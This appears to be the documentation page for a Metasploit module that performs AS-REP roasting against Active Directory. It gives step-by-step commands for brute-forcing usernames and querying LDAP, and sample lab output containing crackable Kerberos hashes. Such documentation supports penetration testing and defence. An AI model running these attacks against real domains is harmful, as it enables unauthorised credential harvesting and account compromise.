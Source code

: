 ## ASREP-roast

The `auxiliary/gather/asrep` module can be used to find users who have Pre-authentication disabled,
and retrieve credentials that can be cracked using a hash-cracking tool.

The following ACTIONS are supported:

- **BRUTE_FORCE**: Make TGT requests for all usernames in a given file. This does not require
  valid domain credentials.
- **LDAP**: Request the set of users with pre-authentication disabled using an LDAP query, and
  then request TGTs for these users.

## Module usage

- Start `msfconsole`
- Do: `use auxiliary/gather/asrep`
- Do: `run action=BRUTE_FORCE user_file=<file> rhost=<IP> domain=<FQDN> rhostname=<hostname>`
- The module will attempt to request TGTs for each of the users in the file. This should not lock out accounts.
  A crackable value will be displayed for all identified accounts.
- Do: `run action=LDAP rhost=<IP> username=<LDAP_User> password=<LDAP_Password> domain=<FQDN> rhostname=<hostname>`
- The module will use LDAP to request the users without pre-auth required, and request TGTs for these users.
  A crackable value will be displayed for all identified accounts.

## Options

### DOMAIN
The Fully Qualified Domain Name (FQDN). Ex: mydomain.local.

### USER_FILE
The file containing a list of usernames, each on a new line.

### Rhostname

The hostname of the domain controller. Must be accurate otherwise the module will silently fail, even if users exist without pre-auth required.

### USE_RC4_HMAC
Request a ticket with the lower-security, more easily crackable, RC4_HMAC encryption type. This is 
usually preferable, but may be less stealthy.

## Scenarios

### Brute forcing users

An example of brute forcing usernames, in the hope of finding one with pre-auth not required:

```msf
msf6 auxiliary(gather/asrep) > run action=BRUTE_FORCE user_file=/tmp/users.txt rhost=192.168.1.1 domain=msf.local rhostname=dc22
[*] Running module against 192.168.1.1

$krb5asrep$23$user@MSF.LOCAL:9fb9954fa32193185ab32e2de2ab9f13$bf14e834c661246cad302073c228e6ff7894cd3023665f0f84338432c3929922ae998c4a23bb9d163dda536a230d0503b2cf575389317b52bde782264940e80206a29e9613e47328228441cf013fb1f6672359f6799be97b962de9429e8859f437e53549be6b11ca07af6f09eae6cd78279af6d7f6dcdfd011eccb74b4aa753b2f9e6561c59c9408ee4bec983777908f3a7eef5fba977710e47e4e8ac0af10608a7dd23db506202b27d7892bc28426d2080c343edfe243bf1cae554cf6204733082332be2455e4674e1c3e84614818a6c15b54221dcaa832

[*] Query returned 1 result.
[*] Auxiliary module execution completed
```

### Using LDAP

```
msf6 auxiliary(gather/asrep) > run action=LDAP rhost=192.168.1.1 username=azureadmin password=password ldap::auth=kerberos domain=msf.local domaincontrollerrhost=192.168.1.1 rhostname=dc22
[*] Running module against 192.168.1.1

[+] 192.168.1.1:88 - Received a valid TGT-Response
[*] 192.168.1.1:389 - TGT MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20231124083018_default_192.168.1.1_mit.kerberos.cca_409871.bin
[+] 192.168.1.1:88 - Received a valid TGS-Response
[*] 192.168.1.1:389 - TGS MIT Credential Cache ticket saved to /home/smash/.msf4/loot/20231124083018_default_192.168.1.1_mit.kerberos.cca_923760.bin
[+] 192.168.1.1:88 - Received a valid delegation TGS-Response
[+] 192.168.1.1:389 Discovered base DN: DC=msf,DC=local
[+] 192.168.1.1:389 Discovered schema DN: DC=msf,DC=local

$krb5asrep$23$user@MSF.LOCAL:234e56b15bf3a0e3eb93d662ea6ded74$9889b0a449154c1353ea4db388af29381ad367771e2fe7d6a5644180e9f7ca0b1e836fc864f6d240e9ef91124edb13797dcb097f68c537279f80e3fc3c5c86f8f937af23bb2fd58274dd40ea184994cf31de50f508faac86c61749032b2d9e4ae4c74b0f76a0c242497e6765ddfba9c57743b19d4bb97aa3ef3b66cee50a1d3871b0b4ecd3f97d42781b6fb3d8839d8805ae1291d0e9ba07d374ed84ea39fadab548c2b40c87288b4465f234d0c3341e3b27c193a62a3ad7b0bdf04dbe5bf03815d48f766d1c727838f92dd36c437782975a978aefcb33e9

[*] Query returned 1 result.
[*] Auxiliary module execution completed
```